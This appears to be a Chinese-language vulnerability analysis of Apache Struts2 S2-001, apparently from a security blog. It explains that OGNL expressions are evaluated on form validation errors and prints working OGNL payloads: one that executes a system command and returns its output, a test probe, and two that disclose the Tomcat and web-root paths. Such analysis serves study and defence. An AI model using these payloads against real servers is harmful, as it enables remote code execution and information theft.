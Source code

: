 # S2-001漏洞分析


&lt;!--more--&gt;

## 一、简介

### 1.1 Struts2

Struts2是流行和成熟的基于MVC设计模式的Web应用程序框架。 Struts2不只是Struts1下一个版本，它是一个完全重写的Struts架构。

### 1.2 S2-001

&gt; Remote code exploit on form validation error

S2-001 漏洞是一种影响 Apache Struts 2 框架的远程代码执行 (RCE) 漏洞。 该漏洞是由 Struts 2 框架中不正确的输入验证引起的，它允许攻击者通过向 Struts 2 应用程序发送特制的 HTTP 请求来执行任意代码。

这个漏洞的核心在于，form的验证错误时，会解析ognl语法，导致命令执行.

poc:

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{&#34;pwd&#34;})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get(&#34;com.opensymphony.xwork2.dispatcher.HttpServletResponse&#34;),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

调试POC：

```java
%{1&#43;5}
```

信息获取：

```java
# tomcat path
%{&#34;tomcatBinDir{&#34;&#43;@java.lang.System@getProperty(&#34;user.dir&#34;)&#43;&#34;}&#34;}

# web path
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get(&#34;com.opensymphony.xwork2.dispatcher.HttpServletResponse&#34;).getWriter(),#response.println(#req.getRealPath(&#39;/&#39;)),#response.flush(),#response.close()}
```



## 二、环境搭建

```
macOS M2
Java version &#34;1.8.0_261&#34;
IDEA 2020.2
tomcat 9.0.70
```
